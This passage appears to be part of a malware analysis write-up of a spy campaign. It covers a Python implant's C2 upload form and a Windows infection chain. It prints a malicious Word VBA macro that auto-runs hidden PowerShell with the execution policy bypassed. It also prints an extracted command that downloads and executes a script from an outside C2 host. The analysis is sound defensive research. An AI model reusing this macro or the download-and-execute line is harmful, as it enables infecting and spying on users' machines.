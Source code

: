 <h6>This reuse the code of the structure of the php form for sending teh data of the C2.</h6>

```html
<form enctype="multipart/form-data" action="upload.php?param=" method="post">
 <input type="hidden" name="MAX_FILE_SIZE" value="10000000" />
 file send: <input name="file" type="file" />
 <input type="submit" value="send" />
</form>
```

<h6>The main code executes a new thread the SpyLoop function.</h6>

```python
main_thread = threading.Thread(target=SpyLoop)
main_thread.start()
```
<h3>Powershell implant<a name="Windows"></a></h3>
<h6>The initial vector is a maldoc with a VBA macro which use an auto-execute function for get the content of theirs forms and execute in memory. The rest of the last three functions are useless.</h6>

```vb
Sub AutoOpen()
 delimage
 interface
 executeps
 shlet
 regpa
End Sub
Sub delimage()
  Selection.Delete Unit:=wdCharacter, Count:=1
End Sub
Function interface()
 TmpEditPath = tptkddlsjangkspdy.Controls(Len("z")).Value
 Set JsEditContent = tptkddlsjangkspdy.Controls(3 - 1 - 1 - 1)
 Open Trim(TmpEditPath) For Output As #2
    Print #2, JsEditContent.Text
 Close #2
End Function
Sub executeps()
d1 = "powershell.exe -ExecutionPolicy Bypass -noLogo $s=[System.IO.File]::ReadAllText('c:\windows\temp\bobo.txt');iex $s"
 With CreateObject("WScript.Shell")
  .Run d1,0, False
 End With
End Sub
```

<h6>We can see the command to download and execute the Powershell script.</h6>

```vb
-------------------------------------------------------------------------------
VBA FORM Variable "TextBox1" IN '.\\vbaProject.bin' - OLE stream: u'tptkddlsjangkspdy'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
IEX (New-Object System.Net.WebClient).DownloadString('http://mybobo.mygamesonline.org/flower01/flower01.ps1')
-------------------------------------------------------------------------------
VBA FORM Variable "TextBox2" IN '.\\vbaProject.bin' - OLE stream: u'tptkddlsjangkspdy'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
C:\windows\temp\bobo.txt
```
